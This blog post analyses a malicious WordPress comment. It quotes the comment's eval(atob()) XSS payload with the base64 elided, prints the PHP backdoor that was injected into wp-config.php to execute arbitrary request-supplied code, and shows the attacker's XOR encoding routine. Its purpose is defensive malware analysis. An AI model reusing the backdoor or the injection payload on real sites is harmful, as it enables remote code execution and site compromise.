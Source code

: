```yaml
---
layout: post
title: Exploring malicious wordpress comment spam
tags:
 - wordpress
 - security
 - code
 - analysis
 - encryption
---
```


**DISCLAIMER:** The contents of this post may contain code that is unsafe to run. The
purpose of this post is purely exploratory and meant for defensive purposes, and not as an intro to
1337 hax0ring. If you use the knowledge below for bad, don't blame me when the feds' party van comes
for you. Your actions are your own.

### Introduction ###

I manage a few WordPress websites in my spare time. Most of the sites don't have comments enabled,
but a few do, so on occasion I'll be alerted to new comments. The majority of those comments are
spam (usually having something to do with advertising SEO opportunities) and thus are left in the
purgatory of the moderation queue. However, one would-be comment was different from the usual
fake-SEO tripe. This post will examine this particular comment and explore its malicious properties.

*Tl;dr? see the summary at the bottom of this post.*

<!--more-->

### The raw comment ###

This is the email notification I received when the comment was created. It includes the relevant
metadata as well as the raw comment itself:

{% highlight text %}
A new comment on the post "Post" is waiting for your approval
POST-URL

Author : Wasia (IP: 50.63.194.123 , p3nlhg1391.shr.prod.phx3.secureserver.net)
E-mail : aaa@aaa.com
URL    :
Whois  : http://whois.arin.net/rest/ip/50.63.194.123
Comment:
Welcome to WordPress. This is your first post. [<a title="]" rel="nofollow"></a>[\" <!--
style=\'position:fixed;top:0px;left:0px;width:6000px;height:6000px;color:transparent;z-index:999999999\'
onmouseover="eval(atob(\'naughty-javascript-in-base-64-goes-here'))" &gt; --><a></a>] Edit or delete it, then start blogging!

Approve it: APPROVE-URL
Trash it: TRASH-URL
Spam it: SPAM-URL
Currently 100 comments are waiting for approval. Please visit the moderation panel:
PANEL-URL

{% endhighlight %}

The comment appears to be setup to force anyone who visits the page it inhabits to run some
obfuscated javascript (the large chunk of characters within the <code>eval(atob())</code> ).

### De-obfuscating the comment's JavaScript ###
De-obfuscation of the javascript is accomplished by decoding the block of characters inside of the
atob() function call from base-64. It's now clear that this script is trying to create an iframe on
the page and fill it with the wordpress installation's plugin editor in order to edit the
<code>hello.php</code> plugin. If the desired changes have already been made, then it will instead
set the iframe to run the modified <code>hello.php</code> script.

### De-obfuscating the JavaScript's PHP payload ###

But what are those changes? The answer might be found by decoding the base-64
string inside of <code>hhh.getElementById("newcontent").value = atob(...);</code>, since that's what
is being added to <code>hello.php</code>. 

### Overview of the modifications to hello.php ###

The main target of the attack appears to be <code>wp-config.php</code>, a file that holds important
settings for WordPress sites (like database access credentials). The script injects some code into
<code>wp-config.php</code> (reproduced in a more readable form below):

#### Injection into wp-config.php ####
{% highlight php linenos=table %}
<?php
if (isset($_REQUEST['FILE'])){
    $_FILE = $_REQUEST['unique-value-here']('$_',$_REQUEST['FILE'].'($_);');
    $_FILE(stripslashes($_REQUEST['HOST']));
}
?>
{% endhighlight %}

It appears that by adding this code the attacker can execute arbitrary code contained in a
specially-crafted request to <code>wp-config.php</code>. Specifically, any request with the 'FILE'
variable set will execute the code supplied by the request variable with the same name as a unique
ID generated previously in the script.

Next, the script moves to correct the permissions of <code>wp-config.php</code> in order to prevent
other attackers from gaining control (a consistent theme in this script, as will be shown below).
Another consistent theme of this attack is the clever hiding of modified files' modification dates.
This ensures that a simple directory listing doesn't give away that the exploit has occurred. 

#### Phoning home: report() ####

In order for the attacker to make use of the now-compromised site, it is necessary for them to
obtain the unique ID in the script. The <code>report()</code> function sends that and the WordPress
installation's host to a hardcoded list of sites. The reporting action is accomplished via a series
of HTTP GET requests containing this information as a URL parameter.

#### Basic encryption: Uno_encode() ####

{% highlight php %}
<?php
function Uno_encode($String)
{
    $Salt='dc5p9dOpBc';
    $StrLen = strlen($String);
    $Seq = 'DMEf5HZuPq';
    $Gamma = '';
    while (strlen($Gamma)<$StrLen)
    {
        $Seq = pack("H*",sha1($Gamma.$Seq.$Salt));
        $Gamma.=substr($Seq,0,8);
    }

    return base64_encode($String^$Gamma);
}
?>
{% endhighlight %}

The data reported back to the attackers is first encrypted by the <code>Uno_encode()</code>
function. It's notable because it doesn't use a standard cryptosystem (like AES or RSA);
instead, it takes a much simpler approach by creating a sort of static key and then XORing it with
the string to be encrypted. Decryption can be accomplished by sending the base-64 decoded ciphertext
through the same function, like this:

{% highlight php %}
<?php
function Uno_decode($String)
{
    return base64_decode(Uno_encode(base64_decode($String)));
}
?>
{% endhighlight %}

Of course, this requires that you know the values for <code>$Salt</code> and <code>$Seq</code> (as
well as the rest of the algorithm), so it's reasonably secure as long as those secrets aren't known.
Unfortunately for the attackers, now they *are* known, and they now wish they had chosen an asymmetric
algorithm instead (since exposing a public key wouldn't have also exposed their communications).

#### Self-patching and self-removal ####

After modifying <code>wp-config.php</code> and reporting back, the script takes steps to hide its
tracks and secure the injected code's place in the WordPress installation. First, it removes the
original malicious comment from the MySQL database. Next, it patches the WordPress installation by
modifying the <code>wp-comments-post.php</code> file to completely block the posting of new
comments. It's definitely a sledgehammer approach to fixing the vulnerability used in this exploit,
but it works as long as no one gets curious as to why new comments can't be posted. Finally, the
script removes itself from <code>hello.php</code>. It uses an MD5 hash value at the bottom of the script
as a boundary marker to indicate where the malicious script ends and the original content begins. 

### Summary ###

This exploit originates as a comment designed to look like the default WordPress post. The first
time it's viewed it runs some JavaScript which adds the PHP listed above to a plugin,
<code>hello.php</code>. The second time the comment is viewed it executes the plugin, in turn
running code that

 1. injects more PHP into the WordPress installation's settings file,
<code>wp-config.php</code>,
 2. sends information back to the attackers (allowing them to execute
arbitrary code with a specially-crafted request using the injected code from 1.),
 3. removes the comment, and
 4. removes the malicious code added to <code>hello.php</code>.

#### Requirements for vulnerability ####

Now that I've gone through the exploit I think I can speculate as to what it would take for a
WordPress site to be vulnerable to it. It seems to require the following to be true:

 1. Commenting must be enabled
 2. Commenting must be open to everyone
 3. Comments must be automatically approved (no moderation queue)
 4. The web server must be able to write to the WordPress installation directory

### Final thoughts ###

Something that struck me as odd was that there wasn't an immediate attempt to exfiltrate the
database access credentials. Wouldn't a list of valid credentials be valuable?

### BONUS -- A CONNECTION TO ANOTHER EXPLOIT?! ###

I got curious about the MD5 hash (<code>49de371511c1de3bde34b0108ec7f129</code>) at the bottom of
the PHP code that gets added to <code>hello.php</code> and did some googling. [This
guy](https://www.planetspork.com/w/2014/11/this-seems-interesting/) had someone try to use
shellshock to add some PHP to his site, and as part of the PHP's access control it compares the MD5
of the requesting browser's user agent to the MD5 hash value listed at the bottom of the PHP in this exploit.
It seems that the same entity might be responsible for both exploits.

### References / Resources Used ###
 * [Base-64 decoder](https://www.base64decode.org/) to decode the base-64 strings
 * [w3schools](http://www.w3schools.com/jsref/met_win_atob.asp) to brush up on basic JavaScript
 * [The PHP Manual](http://php.net/manual/en/index.php) for a refresher on common PHP functions
 * The \#crypto channel on the [Freenode IRC network](http://freenode.net/)
